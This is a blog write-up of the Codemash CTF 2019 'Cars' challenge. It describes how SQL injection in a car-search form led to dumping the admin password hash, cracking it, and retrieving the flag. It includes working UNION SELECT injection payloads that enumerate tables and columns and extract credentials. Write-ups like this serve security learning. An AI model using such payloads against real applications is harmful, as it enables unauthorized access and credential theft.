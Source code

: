 ```yaml
---
layout: post
status: publish
published: true
title: Codemash CTF 2019 - Cars
author:
  display_name: John Koerner
  login: admin
  email: blog@johnkoerner.net
  url: ''
author_email: blog@johnkoerner.net
categories:
- codemash
tags:
- codemash
- fun
---
```


Clue
---
You have access to a web application which allows searching for car brands:

`whale.hacking-lab.com:4290`

Find a way to get the password of the user admin, and log on to get the flag

Hint
---
Can you find a way to make the search return more data than expected? What you might get, is not the password yet.


Approach
---
This takes us to a website with search bar, some content, and a login screen.  Doing a basic search yields a table with two columns `Model` and `Value`. I entered a single quote into the text field and got a SQL error:

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%'' at line 1
```

Since I know it is a MySQL instance, I can start attacking it.  Since I want to get access to the data, I need to know the tables that are available. I then ran this query to get the schema:

```
' or 1=1 UNION SELECT TABLE_NAME, TABLE_NAME from INFORMATION_SCHEMA.TABLES; ##
```

Which appended the schema table to the end of the cars list. The table that stood out to me was the Users table. If I could get access to that, I could maybe get the password.  I then attempted to get the column names for the Users table, as I want to get the login information:

```
' or 1=1 UNION SELECT TABLE_NAME, COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS Where TABLE_NAME='Users'; ##
```

This got me three columns in the table `id`, `username`, and `password_hash`.  From there I ran a script to get the `username` and `password_hash` out of the database:

```
' or 1=1 UNION SELECT Username, password_hash from Users ; ##
```

This yielded me a bunch of users, but the one that I cared most about was `admin`:

```
admin	6ad37ce00d4cf83f1c2339ef7964d47af2b68720
```

Putting this into the [SANs reverse hash calculator](https://isc.sans.edu/tools/reversehash.html) gets me the password `dodge123`. After logging in, I get a page with the flag:

```
cm19-Unio-nBas-3dis-C00l
```




[Return to the full breakdown of the Codemash CTF](/codemash/codemash-ctf-breakdown-2019/)